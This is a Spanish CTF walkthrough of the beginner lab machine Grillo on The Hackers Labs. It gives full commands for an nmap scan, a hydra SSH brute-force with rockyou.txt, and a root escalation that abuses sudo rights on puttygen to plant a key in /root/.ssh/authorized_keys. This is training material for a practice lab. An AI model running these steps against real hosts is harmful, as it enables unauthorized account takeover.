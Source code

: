 ```yaml
---
title: 'The Hackers Labs: '
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Página de la máquina:** [https://thehackerslabs.com/grillo/](https://thehackerslabs.com/grillo/)

![Grillo](/thl/principiante/grillo/grillo.png)

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 3000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

## Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/thl/principiante/grillo/defaul-page.png)

![Comentario](/thl/principiante/grillo/comentario.png)

---

## Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt 192.168.100.7 ssh -t 64
```

Se encuentra la contraseña válida: **trustno1**

![Hydra](/thl/principiante/grillo/hydra.png)

---

## Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

![nopasswd](/thl/principiante/grillo/nopasswd.png)

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

> 💡 *Nota:* Es posible que tengas que crear la carpeta `.ssh` manualmente con `mkdir ~/.ssh` si no existe.

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.100.7:/home/melanie/.ssh/id .
ssh -i id root@192.168.100.7
```

Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda en ~/.ssh/id. Luego, se extrae la clave pública desde ese archivo y se agrega al final de ~/.ssh/authorized_keys para habilitar el acceso por clave. Posteriormente, la clave privada se transfiere al directorio seguro /root/.ssh/, y la pública se exporta en formato OpenSSH a /root/.ssh/authorized_keys, permitiendo así la autenticación como root. Finalmente, se copia la clave privada desde la máquina remota a tu entorno local mediante scp, y se establece la conexión SSH con el usuario root usando:

Con esto obtenemos acceso completo como root.

---

## 🎉 ¡Root conseguido!

![root](/thl/principiante/grillo/root.png)

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
